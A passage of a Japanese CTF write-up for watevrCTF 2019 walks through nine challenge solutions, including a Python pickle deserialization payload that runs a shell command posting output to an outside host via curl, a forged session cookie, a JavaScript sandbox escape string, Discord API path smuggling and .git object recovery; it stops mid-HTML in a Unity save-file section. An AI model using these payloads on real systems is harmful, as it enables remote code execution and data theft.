

12 月 14 日から 12 月 16 日にかけて開催された [watevrCTF 2019](https://ctf.watevr.xyz//) に、チーム zer0pts として参加しました。最終的にチームで 4869 点を獲得し、順位は得点 692 チーム中 3 位でした。うち、私は 9 問を解いて 1502 点を入れました。

他のメンバーの write-up はこちら。

- [watevrCTF 2019 Writeup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2019/12/16/062350)
- [watevrCTF writeup - ふるつき](https://furutsuki.hatenablog.com/entry/2019/12/16/103113)

以下、私が解いた問題の write-up です。

## [Misc 43] Unspaellable (167 solves)
> I think the author of this episode's script had a stroke or something... Or maybe it's just me?
> 
> 添付ファイル: chall.txt

`chall.txt` は以下のような内容でした。

```

                                      STARGATE SG1

                                       Episode 101

                                  "CHILDREN OF THE GODS"

                                           By

                             Jonathan Glassner & Brad Wright


               The opening scene starts in the gateroom. The gate is covered 
               and in a corner of the room a group of four military personnel 
               are playing a game of cawrds.
```

最初の一文でググってみると原文が見つかりました。原文を `orig.txt` として保存し、その `diff` を見てみましょう。

```
$ diff orig.txt chall.txt
︙
>                          They're the wholde reason we kept the
1179c1179
<                The team prepare to leave, in the gateroom
---
>                The team prepare to leave, in the gateeroom
1258c1258
<                          lunch.
---
>                          luznch.
2124c2124
<                          the bleeding from his leg!
---
>                          the bleeding from hi}s leg!
4353a4354
>
\ No newline at end of file
```

行のどこかに文字が挿入されるという形でフラグが埋め込まれているようです。Python の標準ライブラリである [difflib](https://docs.python.org/ja/3/library/difflib.html) を使って挿入されている文字を集めてみましょう。

```python
import difflib

with open('orig.txt') as f:
  s = f.read()

with open('chall.txt') as f:
  t = f.read()

m = difflib.SequenceMatcher(None, s, t)
res = ''
for tag, i1, i2, j1, j2 in m.get_opcodes():
  if tag == 'insert':
    res += t[j1:j2]

print(res)
```

```
$ python3 solve.py
watevr{icantspeel_tiny.cc/2qtdez}
```

フラグが得られました。

```
watevr{icantspeel_tiny.cc/2qtdez}
```

## [Misc 236] Axela (15 solves)
> Tired of Alexa listening to you constantly? Want someone who will definitely totally not look at what you are doing? Try private messaging Axela! You can find her in our official Discord server (Discord の招待リンク).

与えられた招待リンクをクリックするとこの CTF の公式 Discord サーバに入ることができました。メンバーの中には Axela という bot がおり、どうやらこれと DM で対話すればよいようです。適当に話しかけてみましょう。

```
[05:34] st98: test
[05:34] ボットAxela: Unrecognized command. say Axela help to get a list of commands.
```

`Axela help` でコマンドのリストを送ってくれるようです。

```
[05:34] ボットAxela: All commands:

Axela ping - ping
Axela say <phrase> - repeats the phrase
Axela get guilds <guild_id> - gets info about a specific guild
Axela get channels <channel_id> - gets info about a specific channel
Axela get users <user_id> gets info about a specific user
```

なるほど。`guilds` や `channels` などは Discord の用語で、これらのコマンドを叩くとサーバやチャンネルの情報を取得してくれるようです。試してみます。

```
[05:40] st98: Axela get users 601775203894427658
[05:40] ボットAxela:
Axela#6117
601775203894427658
[05:42] st98: Axela get users neko
[05:42] ボットAxela: Unrecognized response format
{"user_id": ["Value \"neko\" is not snowflake."]}
```

`is not snowflake` でググると Discord の API に関する質問などがヒットします。Discord の API を叩いているのでしょうか。ググってみると [`GET /users/{user.id}`](https://discordapp.com/developers/docs/resources/user#get-user) や [`GET /guilds/{guild.id}`](https://discordapp.com/developers/docs/resources/guild#get-guild) などの API エンドポイントが見つかりました。

`Axela get guilds (id)/channels` のようなコマンドで [`/guilds/{guild.id}/roles`](https://discordapp.com/developers/docs/resources/guild#get-guild-roles) を叩かせることができないでしょうか。試してみます。

```
[05:42] st98: Axela get users 603684713361571879/roles
[05:42] ボットAxela: I dont like that character. Please don't use that.
```

`/` が入っているせいか怒られてしまいました。パーセントエンコーディングしてみましょう。

```
[05:47] st98: Axela get guilds 603684713361571879%2froles
[05:47] ボットAxela: Unrecognized response format
[{"id": "603684713361571879", "name": "@everyone", "permissions": 104189505, "position": 0, "color": 0, "hoist": false, "managed": false, "mentionable": false}, …]
```

いけました。この bot の情報を探っていると、[`/users/@me/guilds`](https://discordapp.com/developers/docs/resources/user#get-current-user-guilds) で以下のように `Super Secret Server` というそれっぽいサーバに入っていることが確認できました。

```
[05:49] st98: Axela get users @me%2fguilds
[05:49] ボットAxela: Unrecognized response format
[{"id": "601776233411510302", "name": "Super Secret Server", "icon": "baca37e4b8e17d0d59afde06f86b4659", "owner": false, "permissions": 2146959351, "features": []}, {"id": "603684713361571879", "name": "watevrCTF", "icon": "2e898a64583de4c1c4bba2c58b69a303", "owner": false, "permissions": 104324673, "features": []}]
```

このサーバに入ることができないか、[`/guilds/{guild.id}/invites`](https://discordapp.com/developers/docs/resources/guild#get-guild-invites) で招待コードを確認してみます。

```
[05:55] st98: Axela get guilds 601776233411510302%2finvites
[05:55] ボットAxela: Unrecognized response format
[{"code": "…", "guild": {"id": "601776233411510302", "name": "Super Secret Server", "splash": null, "banner": null, "description": null, "icon": "baca37e4b8e17d0d59afde06f86b4659", "features": [], "verification_level": 0, "vanity_url_code": null}, "channel": {"id": "601776741966413834", "name": "general", "type": 0}, "inviter": {"id": "601773149742432270", "username": "watevr", "avatar": null, "discriminator": "2443"}, "uses": 14, "max_uses": 0, "max_age": 0, "temporary": false, "created_at": "2019-07-19T14:07:36.029000+00:00"}]
```

得られた招待コードでこの怪しげなサーバに入ると、`flag` というチャンネルにフラグがありました。

```
watevr{hey_google_play_never_gonna_give_you_up_0d80d47743}
```

## [Reverse 111] Fuckn't (47 solves)
> Fuck. Not only did I lose the flag, but my code also turned sentient again.
> 
> 添付ファイル: fuck.js

`fuck.js` は以下のような内容でした。

```
[][(![]+[])[+[]]+([![]]+[][[[][(![]+[])[+[]]+([![]]+[][[]])[+!![]+[+[]]]+(![]+[])[!![]+!![]]+…
```

これは [JSFuck](http://www.jsfuck.com/) で生成された JavaScript コードでしょう。`JSFuck decode` でググってヒットした[スクリプト](https://gist.github.com/Inndy/96a8bc538adbe7e7c71785521798a6c1)を利用すると、以下のようなコードが `Function` に投げられていることが確認できました。

```
Function Constructor: return{}
Function Constructor: return escape
Function Constructor: return(isNaN+false).constructor.fromCharCode(119,97,116,101,118,114,123,106,97,118,97,115,99,114,105,112,116,95,105,115,95,97,95,49,97,110,103,117,97,103,51,95,102,48,114,95,105,110,116,51,49,49,51,99,116,117,97,49,115,125)
Function Constructor: return alert
Function Constructor: return{}
Function Constructor: return escape
Function Constructor: return(isNaN+false).constructor.fromCharCode(73,39,109,32,115,111,114,114,121,32,68,97,118,101,44,32,73,39,109,32,97,102,114,97,105,100,32,73,32,99,97,110,39,116,32,100,111,32,116,104,97,116)
```

最初の `String.fromCharCode` を実行するとフラグが得られました。

```
>String.fromCharCode(119,97,116,101,118,114,123,106,97,118,97,115,99,114,105,112,116,95,105,115,95,97,95,49,97,110,103,117,97,103,51,95,102,48,114,95,105,110,116,51,49,49,51,99,116,117,97,49,115,125)
<"watevr{javascript_is_a_1anguag3_f0r_int3113ctua1s}"
```

```
watevr{javascript_is_a_1anguag3_f0r_int3113ctua1s}
```

## [Reverse 277] Punk Whine (11 solves)
> "Yields this sentence when preceded by its quotation" almost yields this sentence when preceded by its quotation
> 
> 添付ファイル: punk_whine.pl

`punk_whine.pl` は以下のような内容でした。

```perl
use Math::GMP;
$n=Math::GMP->new(qq((19728ケタ)の整数));
$i=275707953942;
$a=';
$i=%d;
$a=%c%s%c;
$r = $n->bxor($n->blshift(1,0))->band(Math::GMP->new(2)**65535-1);
exit printf $a,$i-(print "use Math::GMP;\n\$n=Math::GMP->new(qq(",$r,"))"),39,$a,39 if$i;
do{$c=($n+$i/3)%256;print chr$c if$c>31||$c==10}while$n>>=8;';
$r = $n->bxor($n->blshift(1,0))->band(Math::GMP->new(2)**65535-1);
exit printf $a,$i-(print "use Math::GMP;\n\$n=Math::GMP->new(qq(",$r,"))"),39,$a,39 if$i;
do{$c=$n%256;print chr$c if$c>31+$i||$c==10}while $n=$n->brshift(8);
```

これを実行すると、Quine のような形で `$n` と `$i` に入る数値だけが変わったほとんど同じ Perl スクリプトが出力されました。`$n` は全く異なる数値で、`$i` は `275707953941` とデクリメントされた数値になっています。Perl スクリプトを出力してから `exit` するのは `if$i` と `$i` が 0 でない場合なので、275707953942 回実行すればフラグが表示されるのでしょう。素直に実行していては人生が終わってしまいます。

新しい `$n` は `$r = $n->bxor($n->blshift(1,0))->band(Math::GMP->new(2)**65535-1);` のように計算されています。これは Python 風に書くと `(n ^ (n << 1)) & (2 ** 65535 - 1)` で、適当に Python コードを書いてループを回してみると、65536 回実行すると同じ `$n` になることがわかります。65536 回ループを回して、もし `do{$c=$n%256;print chr$c if$c>31+$i||$c==10}while $n=$n->brshift(8);` というフラグの抽出処理をした際に `watevr` が含まれる場合はそれを出力するというような Perl スクリプトを書きましょう。

```perl
use Math::GMP;

$n = Math::GMP->new(qq(…));
foreach my $i (0..65535) {
  $n = $n->bxor($n->blshift(1,0))->band(Math::GMP->new(2)**65535-1);
  $nn = $n->gmp_copy();

  my $res = '';
  do {
    $c = $nn % 256;
    $res .= chr($c) if $c > 31 || $c == 10
  } while $nn=$nn->brshift(8, 0);

  if (index($res, 'watevr') != -1) {
    print $res;
  }
}
```

```
$ perl solve.pl
…watevr{we_have_hit_rock_bottom}…
```

フラグが得られました。

```
watevr{we_have_hit_rock_bottom}
```

## [Web 21] Cookie Store (539 solves)
> Welcome to my cookie store!
> 
> (URL)

与えられた URL にアクセスすると、以下のようにショッピングサイトなものが表示されました。

```html
︙
    <div class="container">
        <h1>Mateusz's Cookie Store</h1>
        <h4>Your funds: $50</h4>
        <div class="row">
            <div class="col">
                <div class="card">
                    
                    <div class="card-body">
                        <h5 class="card-title">Chocolate Chip Cookie</h5>
                        <div class="card-text">
                            <p>The classic chocolate chip cookie you know and love.</p>
                            <p>Price: $1</p>
                        </div>
                        <form action="/buy" method="POST">
                            <input type="hidden" class="form-control" name="id" value="0">
                            <button type="submit" class="btn btn-primary">Buy</button>
                        </form>
                    </div>
                </div>
            </div>
            <div class="col">
                <div class="card">
                    
                    <div class="card-body">
                        <h5 class="card-title">Pepparkaka</h5>
                        <div class="card-text">
                            <p>Some Pepparkakor to get you into the christmas spirit.</p>
                            <p>Price: $10</p>
                        </div>
                        <form action="/buy" method="POST">
                            <input type="hidden" class="form-control" name="id" value="1">
                            <button type="submit" class="btn btn-primary">Buy</button>
                        </form>
                    </div>
                </div>
            </div>
            <div class="col">
                <div class="card">
                    
                    <div class="card-body">
                        <h5 class="card-title">Flag Cookie</h5>
                        <div class="card-text">
                            <p>The flag cookie you have always wanted!</p>
                            <p>Price: $100</p>
                        </div>
                        <form action="/buy" method="POST">
                            <input type="hidden" class="form-control" name="id" value="2">
                            <button type="submit" class="btn btn-primary">Buy</button>
                        </form>
                    </div>
                </div>
            </div>
        </div>
        <h5 class="mt-3">Inventory:</h5>
        <ul class="list-group mt-2">
        </ul>
    </div>
︙
```

$100 の Flag Cookie を買えばフラグが得られそうですが、残念ながら所持金は $50 でこれを増やす手段はなさそうです。Cookie を見てみると `session=eyJtb25leSI6IDUwLCAiaGlzdG9yeSI6IFtdfQ==` がセットされていました。これを Base64 デコードすると `{"money": 50, "history": []}` になります。`50` を `1000` に置き換えた `eyJtb25leSI6IDEwMDAsICJoaXN0b3J5IjogW119` をセットすると所持金が $1000 になり、Flag Cookie を買うことができました。

```
watevr{b64_15_4_6r347_3ncryp710n_m37h0d}
```

## [Web 60] Swedish State Archive (106 solves)
> The Swedish State Archive are working on their new site, but it's not quite finished yet...
> 
> (URL)

与えられた URL にアクセスすると、以下のような HTML が返ってきました。

```html
<html>
  <head>
    <meta name="author" content="web_server.py">
︙
  </head>
  <body>
    <div id="header">
      <div id="title">
        Swedish State Archive
      </div>
      <div id="links">
        <a href="https://youtu.be/U-g8y4fCSzg">Contact</a>
        <a href="https://youtu.be/O4NH8mxmypo">Search</a>
        <a href="https://youtu.be/4BO2140NPCU">Languages</a>
        <a href="https://youtu.be/awg9EbBo4mc">Other</a>
      </div>
    </div>
    <div id="body">
      <div id="content">
        <h2> Operation </h2>
        <p> Swedish State Archives has supervisory responsibility for the City of Stockholm's administrations, companies and foundations. Here the church archives and archives are kept, for example, by the activities of the courts, the police and the customs. The archive must ensure that the archives law is followed and that a good public structure is maintained. Today, digitization of paper documents and the management of digitally created documents is one of the most important tasks of the Swedish State Archive. Preservation and binding of older documents takes place as needed and is part of the archive's work to ensure that the city's information is preserved for the future.
 </p>
      </div>
    </div>
    <br />
    
    <div class="warning"> <p> This site is under construction! </p> </div>
  </body>
</html>
```

`/web_server.py` にアクセスすると以下のような Python スクリプトが返ってきました。これがこの問題サーバで動いているのでしょう。

```python
from flask import Flask, request, escape
import os

app = Flask("")

@app.route("/")
def index():
    return get("index.html")

@app.route("/<path:path>")
def get(path):
    print("Getting", path)
    if ".." in path:
        return ""

    if "logs" in path or ".gti" in path:
        return "Please do not access the .git-folder"

    if "index" in path:
        path = "index.html"

    if os.path.isfile(path):
        return open(path, "rb").read()

    if os.path.isdir(path):
        return get("folder.html")

    return "404 not found"


if __name__ == "__main__":
    app.run("0.0.0.0", "8000")
```

`".gti" in path` は `.git` の打ち損じでしょう。`/.git/config` にアクセスしてみると以下のような内容が返ってきました。

```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
```

`.git` ディレクトリから情報を得られそうです。…が、先程のスクリプトを見ればわかるように `logs` にはアクセスできないようになっており、`git clone` や [dvcs-ripper](https://github.com/kost/dvcs-ripper) の `rip-git.pl` を使っても clone することができません。

ではどうするかというと、Git Object をたどります。まず `/.git/refs/heads/master` を見ると `3cfc478001335cf159c7e935a67454df66085070` という内容でした。`/.git/objects/3c/fc478001335cf159c7e935a67454df66085070` をダウンロードして `zlib.decompress` すると以下のようにコミットの情報が得られました。

```
commit 243 tree 5e72097f3b99ce5936bff7c3b864ef6c7a0dae85
parent a20f56853b2d9b30fca05f464a64609f822317a3
author Travis CI User <travis@example.org> 1576262795 +0000
committer Travis CI User <travis@example.org> 1576262795 +0000

Make things a bit tighter
```

ここから `/.git/objects/a2/0f56853b2d9b30fca05f464a64609f822317a3` をダウンロードし、さらにこの前のコミットの情報を取得し…という風に繰り返していくと、`/.git/objects/69/0d441baaed6f7c5a9b931b0e52c97a95d4dfd5` で怪しげなコミットの情報が得られました。

```
commit 243 tree 326cb05f3fcbdf63aef0177fee81623ff4619398
parent 7cfa92660ee03522aabdc04cdfc577be095facb0
author Travis CI User <travis@example.org> 1576262795 +0000
committer Travis CI User <travis@example.org> 1576262795 +0000

did some work on flag.txt
```

`/.git/objects/32/6cb05f3fcbdf63aef0177fee81623ff4619398` をダウンロードし、展開します。

```
>>> print(zlib.decompress(open('6cb05f3fcbdf63aef0177fee81623ff4619398', 'rb').read()))
b'tree 154\x00100644 flag.txt\x00\xefF\x0e\xcd\t\x0b\x93\xb13gZ\x05`\xeb\x15\xae\\~\xf8"100644 folder.html\x00V6\xe6\x82k\xc5\x90\x05fd\xa81\xb6\x99\xe0\x0f\xc7\xfe\t\xa5100644 index.html\x00\'\x8eD\xe8\xdc\xfc\xd5\x1d4\xa0\xe4\x12]\xd5v\'A\xad0\xf2100644 web_server.py\x00\x87\x87\x94d\x05^d\x0eC\xf9\x8cD+\x1d\xe5\xc75\\\x99\''
```

`flag.txt` が含まれていそうな `/.git/objects/ef/460ecd090b93b133675a0560eb15ae5c7ef822` をダウンロードし、展開します。

```
blob 32\x00watevr{everything_is_offentligt}
```

フラグが得られました。

```
watevr{everything_is_offentligt}
```

## [Web 169] Pickle Store (26 solves)
> After I went bankrupt running my cookie store i decided to improve my security and start a pickle store. Turns out pickles are way more profitable!
> 
> (URL)

与えられた URL にアクセスすると、Cookie Store と同じようなショッピングサイト風のページが表示されました。Cookie には `session=gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu` がセットされています。問題名的に、Python の [pickle](https://docs.python.org/ja/3/library/pickle.html) でしょう。デシリアライズしてみましょう。

```
$ python3
>>> import pickle
>>> import base64
>>> pickle.loads(base64.b64decode('gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu'))
{'money': 500, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
```

pickle でした。pickle といえば [RCE](http://mrtc0.hateblo.jp/entry/2015/12/08/230840) です。デシリアライズすると適当な URL に `ls` の実行結果を投げるようなバイト列を作ってみましょう。

```python
import base64
code = b"c__builtin__\neval\n(S'__import__(\\'os\\').system(\\'curl (省略) -d $(ls)\\')'\ntR"
print(base64.b64encode(code))
```

これを Cookie にセットしてページを更新すると、以下のような HTTP リクエストが来ました。

```
$ nc -l 8000
POST / HTTP/1.1
Host: (省略)
User-Agent: curl/7.58.0
Accept: */*
Content-Length: 8
Content-Type: application/x-www-form-urlencoded
flag.txt
```

実行するコマンドを `cat flag.txt` に変えるとフラグが得られました。

```
watevr{p1ckl3_15_4n_3v3n_b3773r_3ncryp710n_m37h0d}
```

## [Web 123] SuperSandbox (41 solves)
> This has to be safe, right?
> 
> (URL)

与えられた URL にアクセスすると、以下のようなスクリプトが返ってきました。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8" />
		<title>SuperSandbox</title>
		<script>
			let code = location.search.slice(6);
			let env = {
				a: (x, y) => x[y],
				b: (x, y) => x + y,
				c: (x) => !x,
				d: []
			};
			for (let i=0; i<code.length; i+=4) {
				let [dest, fn, arg1, arg2] = code.substr(i, 4);
				let res = env[fn](env[arg1], env[arg2]);
				env[dest] = res;
			}
		</script>
	</head>
	<body>
		<p>I introduce to you the SuperSandbox. For decades humankind has struggled to create a truly safe JavaScript sandbox. But with this sandbox you can rest assured that no piece of code will ever escape.</p>
		<form method="post">
			<p>If you are foolish enough to think you've found a way to escape you can send the code to me and I'll personally prove you wrong by running it.</p>
			<p>Just make the code alert(1) and I'll give you a flag.</p>
			<input type="text" name="code" placeholder="Code" />
			<input type="submit" value="Sandmit" />
		</form>
	</body>
</html>
```

`(x, y) => x[y]` `(x, y) => x + y` `(x) => !x` `[]` という関数とオブジェクトだけが環境に存在する VM で `alert(1)` を実行しろという問題のようです。[JSFuck](http://www.jsfuck.com/) のノリで文字を作って任意コードを実行します。

[JSFuckから理解するECMAScriptの仕様 - Kokudoriing](http://kokudori.hatenablog.com/entry/2013/09/19/082547) という記事や [JSFuck のソースコード](https://github.com/aemkei/jsfuck/blob/7e67f1f/jsfuck.js#L27)を参考に命令列を組み立てると、`Acd_BcA_CbAdDbBd0bAA1b0B2b113b214b315b416b557b667b718b639b85EaC1FaC2GaD3HaD1IaD0KaddKbKdLaC0MaC3NaK5OaK0PaK1QbLNQbQFQbQFQadQJbBQJaJ6RbQdRaR3SbRJSbSPSbSMSbSISbSHSbSOSbSRSbSISbSJSbSHTa0SUaTSVbQdVaV8WbDQWaW9XbEFXbXGXbXHXbXIXbXVXbX1XbXWYUEX_Y__` で `alert(1)` が実行できました。この命令列は以下のような意味 (`A: false` は `env['A']` に `false` が入る) を持っています。

```
Acd_BcA_
A: false
B: true

CbAdDbBd
C: "false"
D: "true"

0bAA1b0B2b113b214b315b416b557b667b718b639b85
0: 0
1: 1
2: 2
3: 3
4: 4
5: 5
6: 10
7: 21
8: 13
9: 18

EaC1FaC2GaD3HaD1IaD0
E: "a"
F: "l"
G: "e"
H: "r"
I: "t"

KaddKbKdLaC0MaC3NaK5OaK0PaK1
K: "undefined"
L: "f"
M: "s"
N: "i"
O: "u"
P: "n"

QbLNQbQFQbQFQadQJbBQJaJ6
J: "o"
Q: Array.prototype.fill

RbQdRaR3
R: "c"

SbRJSbSPSbSMSbSISbSHSbSOSbSRSbSISbSJSbSH
S: "constructor"

Ta0S
T: Number

UaTS
U: Function

VbQdVaV8WbDQWaW9
V: "("
W: ")"

XbEFXbXGXbXHXbXIXbXVXbX1XbXW
X: "alert(1)"

YUEX
Y: function (a) { alert(1) }

_Y__
(Y() で発火)
```

先程の命令列を提出するとフラグが得られました。

```
watevr{6ur13d_1n_th3_j4v4scr1pt_s4nd60x}
```

## [Web, Reverse 462] Meltdown (2 solves)
> I've joined this community for my favorite game, you should check it out!
> 
> (URL)

与えられた URL にアクセスすると、以下のような HTML が返ってきました。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8" />
		<title>Followers of the Reactor</title>
		<link rel="stylesheet" href="style.css" />
	</head>
	<body>
		<h1>Followers of the Reactor</h1>
		<p>This is a group dedicated to <a href="https://www.kongregate.com/games/Cael/reactor-incremental" target="_blank">The Game</a>. In order to access more of the website you need a blessed save file. If you, just like us feel a spirtual connection to the game, you can ask one of our members to provide you with a blessed save file.</p>
		<form method="post" enctype="multipart/form-data">
			<h3>Join with a blessed save file</h3>
			<input type="file" name="save" />
			<input type="submit" />
		</form>
	</body>
</html>
```

`/robots.txt` は以下のような内容でした。

```
User-agent: *
Disallow: /robots.txt
Disallow: /server.js
```

`/server.js` は以下のような内容でした。こういう面倒くさいことをさせるぐらいなら最初からソースコードを問題に添付してほしいです。

```javascript
const fs = require("fs");
const express = require("express");
const fileUpload = require("express-fileupload");

const { encrypt, decrypt } = require("../utils");
const flag = fs.readFileSync("./flag.txt");

const app = express();
app.use(fileUpload({
	limits: 1024
}));
app.use(express.static("static"));

app.post("/", function(req, res) {
	let save = req.files.save;
	
	if (!save || !save.data) return res.send("Invalid request");
	
	try {
		save = decrypt(save.data.toString("utf8"));
	} catch(e) {
		return res.send("Invalid save file");
	}
	save = save.split("|");
	
	let data = {};
	for (let i=0; i<save.length; i++) {
		if (!save[i]) continue;
		let [key, value] = save[i].split(":");
		data[key] = value;
	}
	
	if (!data.blessed) return res.send("Sorry, not blessed");
	
	data.flag = flag;
	
	let flagSave = "";
	for (let key in data) {
		flagSave += key + ":" + data[key] + "|";
	}
	
	res.send(encrypt(flagSave));
});

app.listen(8080);
```

`../utils.js` は与えられていません。ゲームが出力するセーブデータを改変して、`blessed` というパラメータに JavaScript で真となる値を設定しろということのようです。ゲームのチート (?) というと [SECCON x CEDEC CHALLENGE](2018-09-01-seccon-2018-x-cedec-challenge.html) を思い出します。

### 準備

どのようなゲームか開いて確認してみると、最初に Unity のロゴが表示されました。ブラウザ上で動くことから、どうやら Unity の WebGL ビルドで公開しているようです。WebGL ビルドの場合は最終的に実行されるコードが asm.js か WebAssembly になるのに対して、実行形式の場合には IL かネイティブコードと個人的に読みやすいものになるので後者の方がありがたいのですが。

解析や改変がしやすいように、ローカルでも実行できるよう実行に必要なファイルをダウンロードします。

- `index.html`
- `filesaver.js`
- `jquery-3.2.1.min.js`
- `Build/`
  - `Build.asm.code.unityweb` (コード部分)
  - `Build.asm.framework.unityweb`
  - `Build.asm.memory.unityweb`
  - `Build.data.unityweb` (シンボル情報や文字列が含まれる `global-metadata.dat` などを含む)
  - `Build.json` (`unityweb` ファイルのパスが含まれる)
  - `UnityLoader.js` (`Build.json` の情報を使ってファイルを読み込んで実行する)

`unityweb` ファイルはいずれも gzip で圧縮されているため、適当に展開しておきます。このままではこれらのデータを改変した際に再度圧縮する必要があって面倒なので、`UnityLoader.js` を[圧縮されていなくても読み込んでくれるよう改造されたもの](https://gist.github.com/kyptov/f7e4718ee93b5c42bb975bc006fb10b4)に差し替えます。

### 試行1: セーブデータの暗号化方式、鍵、IV を特定できるか?

ゲームが出力するセーブデータは以下のようなものでした。

```
yNFE9tKy05uFS+IikUT52mHYFojr9+6C6MUYA0P6pa7ngX13jtJBJstn3TGWWeKOu78dsJRTIyJ0+ZU+H3/9hspwnWLemWaHOPymjkq2YRY/ePsH4GiG3dnJ/IQ7wnACIC8yLXU2PYaVNUxWSvSe76M8V9iulp7MwCj/SSktItER+zByt2V/0V9PdC6e05J989uu5xGECnsQvgGDA8e3i5zF1SrN+NMOKGk0atrFu6vh1QelRYkzitlEx6VPpuuo13vkTOQOqNK+VC1iXpdmzr1SpSkVIjjcdL2xbQ13UUJN8myWI8+4CXpmrVBq4JCFy1qn2QKkYGXBcI0tSCE0bzqQOc7Zs46wF5cTZmmzhanMAvbzmAQmYa31gy0uMy7uL/F/dQ1OfeCPK0cwTw4LmdnNdpr9IQdTTpJZDofyVlMGx8BaFeDIVT7q2UOZID7Xss9y92rHyq1xgGPV5BytgA==
```

Base64 デコードするとよくわからないバイト列が出てくることから、データが暗号化されていることが推測できます。また、Base64 デコードした後のバイト列の長さが常に 16 バイトの倍数になることから、AES のようなブロック暗号が用いられていることが推測できます。ローカルでも元のページでもセーブデータの大部分は変わらず、例えば URL のような情報が暗号化に使われる鍵や IV のようなところには使われていないことも推測できます。

もし暗号化に用いられている鍵や IV がハードコードされていれば、これらは文字列として `global-metadata.dat` に含まれているはずです。WebGL ビルドの場合 `global-metadata.dat` は `Build.data.unityweb` に埋め込まれているはずですから、バイナリエディタで眺めてみましょう。`Encrypt` などの単語で検索してみると、以下のような文字列が見つかりました。

```
…SAVE FILE DOES NOT CONTAIN VALUE|Error! Component doesn't have serialized ID!;nucLERR8CTRzR4nsuperSPP#ci1lZlt@x0B2!3D4ezF607mHello, World!Plaintext : {0}Encrypted : {0}Decrypted : {0}…
```

`nucLERR8CTRzR4nsuperSPP#ci1lZlt@x0B2!3D4ezF607m` が意味を持つ単語を含みつつも容易には推測できない感じになっており、大変それっぽい雰囲気があります。試しにこのうち適当な文字を `_` に変えてみると出力されるセーブデータが大きく変わり、元のページでもインポートできないものになったことから、これが暗号化に使われる鍵かそれに類するものであると推測できます。

…が、どこからどこまでが鍵で IV なのか、あるいはどんな暗号化方式なのかがわからず、セーブデータを直接復号/暗号化できませんでした。

### 試行2: IDBFS を改変することで出力されるセーブデータを操作できるか?

このゲームはセーブデータをファイルとして出力し、これをインポートすることでゲームの続きを遊ぶことができるという機能が搭載されています。ところが、色々試しているうちに、一度ページを閉じて開き直したときにセーブデータをインポートさせなくてもゲームの続きが遊べることに気づきました。localStorage や Cookie のような仕組みを使ってデータを保存しているのでしょうか。

Chrome の DevTools でどこにデータが保存されているか確認していると、以下のように IndexedDB 上に `/idbfs` というデータベースがあり、これの `FILE_DATA` というオブジェクトストアに `/idbfs/…/PlayerPrefs` とファイル名のようなキーで何らかのデータが保存されているのが確認できました。



[IDBFS](https://emscripten.org/docs/api_reference/Filesystem-API.html#filesystem-api-idbfs) は Unity の (IL2CPP によって IL コードから変換された) C++ コードを asm.js (今回はこちら) か WebAssembly にコンパイルする際に使われる [Emscripten](https://emscripten.org/) の機能のひとつで、IndexedDB 上に擬似的なファイルシステムを構築してくれるようです。

[`PlayerPrefs`](https://docs.unity3d.com/ScriptReference/PlayerPrefs.html) は Key-Value Store 的にゲームデータを保存してくれる Unity の機能のひとつのようで、例えば Windows 向けのビルドの場合では `%userprofile%\AppData\Local\Packages\[ProductPackageId]>\LocalState\playerprefs.dat` のようなパスにファイルとして保存されるようです。今回は IndexedDB 上にあるようなので、`/idbfs/…/PlayerPrefs` の値をダンプしてくれるスクリプトを書いてみましょう。

```html
<!doctype html>
<html lang="en">
  <head>
    <title>dump</title>
  </head>
  <body>
    <h1>dump</h1>
    <div>
      <code id="dump">processing</code>
    </div>
    <a href="/">back to game</a>
    <script>
{
  let p = document.getElementById('dump');
  let req = indexedDB.open("/idbfs");

  req.onsuccess = ev => {
    let db = req.result;
    let objectStore = db.transaction(['FILE_DATA'], "readwrite").objectStore('FILE_DATA');

    p.textContent += '.';

    objectStore.openCursor().onsuccess = ev => {
      let cursor = ev.target.result;

      if (cursor) {
        if (cursor.key.includes('PlayerPrefs')) {
          p.textContent = JSON.stringify(String.fromCharCode(...cursor.value.contents));

          return;
        }

        cursor.continue();
      }
    };
  };
}
    </script>
  </body>
</html>
```

これを実行すると以下のように出力されました。

```
"UnityPrf\u0000\u0000\u0001\u0000\u0000\u0000\u0010\u0000\fBuildVersion\u000224\fCellsReplace\u00011\nComponents\u0000\u0016CurrentExoticParticles\u00010\u0004Heat\u00010\fHeatThisGame\u00010\u0005Money\u00010\rMoneyThisGame\u00010\u0006Paused\u00011\u0005Power\u00010\rPowerThisGame\u00010\u000fProtiumDepleted\u00010\u0014TotalExoticParticles\u00010\tTotalHeat\u00010\nTotalMoney\u00010\nTotalPower\u00010\bUpgradesf0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;0;\u0012unity.cloud_userid ce6b27e316bb4171a9dbbc4363d552f3!unity.player_session_elapsed_time\u00010\u0016unity.player_sessionid\u00133774173611403808487"
```

`Power` や `Heat` など、このゲーム中で使われていそうなパラメータが含まれています。これらのキーを `blessed` に変えることで出力されるセーブデータに `blessed` パラメータを生やすことができないでしょうか。

適当に `\u0006Paused` を選んで、`\u0007blessed` に書き換えるスクリプトを書いてみます。

```html
<!doctype html>
<html lang="en">
  <head>
    <title>modify PlayerPrefs</title>
  </head>
  <body>
